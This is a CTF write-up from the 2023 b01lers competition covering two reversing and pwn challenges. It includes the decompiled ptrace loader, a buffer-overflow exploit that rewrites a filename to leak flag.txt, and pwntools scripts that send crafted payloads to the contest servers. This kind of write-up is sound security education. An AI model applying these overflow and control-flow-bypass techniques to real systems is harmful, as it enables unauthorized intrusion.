 ```yaml
---
title: (CTF) 2023 b01lers CTF writeup
categories: [CTF]
tags : [writeup]
date : 2023-03-20 09:06:57 +0900
author:
    name: 
    link: 
toc: true
comments: false
mermaid: false
math: false
---
```


Date: March 20, 2023
rank: 19
team: ST4RT

# chifufuuufuuuuu ( 398 pt, 13 solve )

there are two files loader.pyc, a binary

```python
while 1:
    # res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    pid, status = os.waitpid(-1, 0)
    ssy = pnx(status)
    print(ssy)
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    print(hex(regs.rip))
    if ssy[1] == 'WIFEXITED':
        break
    if ssy[2] == 'SIGSEGV':
        break
    if ssy[2] == 'SIGTRAP':

> ['0x57f', 'WIFSTOPPED', "'SIGTRAP'", '0']

```

if I execute python code from uncompyle6, it doesn’t work due to the quote.
Enclose comparing string with double quotes

```
int 3
adc [rax+XX]
```

In binary, there are some opcodes that cause SEGFAULT next to int 3.
int 3 → `SIGTRAP`

```python
if ssy[2] == 'SIGTRAP':
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    one_byte = mem_read(pid, regs.rip, 1)[0]
    if one_byte == 72:
        regs.rax = regs.rdi
        regs.rdi = regs.rsi
        ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    else:
        if one_byte == 17 or one_byte == 33 or one_byte == 49:
            offd = {17:0,  33:40,  49:72}
            vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
            vv = struct.unpack('<Q', vv)[0]
            saved_addr.add(vv)
            regs.rip += 1
            ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
        else:
            if one_byte == 18 or one_byte == 34 or one_byte == 50:
                offd = {18:0,  34:40,  50:72}
                vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
                vv = struct.unpack('<Q', vv)[0]
                if vv not in saved_addr:
                    print('\\n\\n!!!Stack Violation Detected!!!\\n\\n')
                    regs.rip = 0
                    ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
                    break
                saved_addr.remove(vv)
                regs.rip += 1
                ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    res = ptrace(PTRACE_CONT, pid, 0, 0)

```

In the loader, it handles `SIGTRAP`.
it branches according to the 1byte next to `int 3` opcode

```
0x48 -> rax = rdi, rdi = rsi
0x11,0x21,0x31 -> saved_addr.add([rsp+XX]), rip+=1
0x12,0x22,0x32 -> saved_addr.remove([rsp+XX]), if not exist, exit. rip+=1,
```

control flow check

## binary routine

```nasm
read(0,0x601004,0x10)
open("/dev/urandom") -> /dev/urandom string -> 0x601084
[0x601000]+=1
read(fd,0x601000+[0x601000]<<4+4],0x10) -> 0x601014
write(1,random values,0x10)
write xored data with urandom value
read(0,[rsp+0x20],0x10)
read(0,[rsp+0x10],...) -> input until 0xA
write xored data [rsp+0x20], [rsp+0x10]
```

in function `0x400486`, BOF occurs. there is int 3 + 0x32 at the end of the function.
loader check if `[rsp+0x48]` in saved_addr.

There are two addresses at this time. original return `0x400546` and `0x4005e2`.

In `0x4005e2`, it executes that routing again if eax ≠ 0.
the return value of write always 1.
repeating that routine, you can raise the address until `0x601084` ( /dev/urandom ) by increasing the input index (`0x601000`)
modifying this filename to flag.txt, it reads flag as random values and prints.

```python
from pwn import *

# r = process(["/usr/bin/python3","/root/loader.py"])
r = remote("ctf.b01lers.com", 5215)
for i in range(9):
    print(i)
    r.sendafter('?:\n',b'flag.txt'.ljust(16,b'\x00'))
    r.sendafter(':\n',b'\x00'*16)
    r.sendline(b'\x00'*0x38+p64(0x4005e2))
r.interactive()
```

by repeating 8 times, the string address 0x601084 (/dev/urandom) can be overwritten,
in the 9th routine, it prints flag as random values 

# baby noah ( 334 pt, 25 solve )

## binary routine

1. input map ( max : 8 * 24 )
2. execute opcode

```python
opcode = map[row * m_col + col]
col + flag1 (default 0)
row += flag2 (default 0)
miles += op+1

# / dup / stack[idx] = stack[idx-1], idx ++
! / test / stack[idx-1] = stack[idx-1] == 0
* / mul / stack[idx-2] *= stack[idx-1], idx-=1
+ / add / stack[idx-2] += stack[idx-1], idx-=1
- / sub / stack[idx-2] -= stack[idx-1], idx-=1, 
/ / div / stack[idx-2] /= stack[idx-1], idx-=1
% / mod / stack[idx-2] %= stack[idx-1], idx-=1
& / and / ...
, / swap / stack[idx-2] = stack[idx-1]; stack[idx-1] = stack[idx-2]
~ / pop / idx-=1
. / putc / putc(stack[idx-1])
: / printf / printf("%d",stack[idx-1])
< / left / flag1 = -1
> / right / flag1 = 1
@ / return 1
^ / up / flag2 = -1
v / down / flag2 = 1
_ / left_right / flag1 = stack[idx-1]==0 ? 1 : -1;
| / up_down / flag2 = stack[idx-1] == 0 ? 1 : -1;
g / load / stack[idx-2] = map[m_col * stack[idx-1] + stack[idx-2]]; idx-=1
p / store / map[m_col * stack[idx-2] + stack[idx-3]] = stack[idx-1]; idx-=3
default / stack[idx] = 0; idx++
```

in every execute, add opcode+1 to `miles.`

using that opcodes, make `miles` 0x31337 to print flag.

input size is 8 * 24, so i need to construct a loop.

first, push counter to stack

> stack : [ 0x00, X ], idx = 2
> 
1. `right` to set flag1 = 1
2. `default` (counter → map[0][1])
3. `default` (dummy to idx++)
4. `default` (dummy, in load row = 0)
5. `test` to set stack[idx-1] = 1
6. `load` X

> payload : >XX!Xg
> 

second, using two rows, construct a loop

1. `right` to start loop
2. `default` to idx++
3. `test` to set stack[2] = 1
4. `sub` stack[1]
5. `default & pop` ( dummy op to increase miles )
6. `down`
7. `left_right` to check counter (stack[1]) == 0
if counter==0, goto right to exit
else, goto left to execute remain loop count

> >X!-X~v
^<<<<<_@
> 

Adjust the value X  to make the miles to 0x31337.

```python
from pwn import *

#r=process(["./babynoah","20","flag.txt"])
r=remote("babynoah.bctf23-codelab.kctf.cloud", 1337)

payload = b">\xe4\xe4!\xffg>\xfe!-\x00~v\n"
payload +=b"\xff\xff\xff\xff\xff\xff^<<<<<<_@"
r.sendline(payload)
pause()
r.sendline()
r.interactive()
```

by default, X to 0xff and adjusted the rest appropriately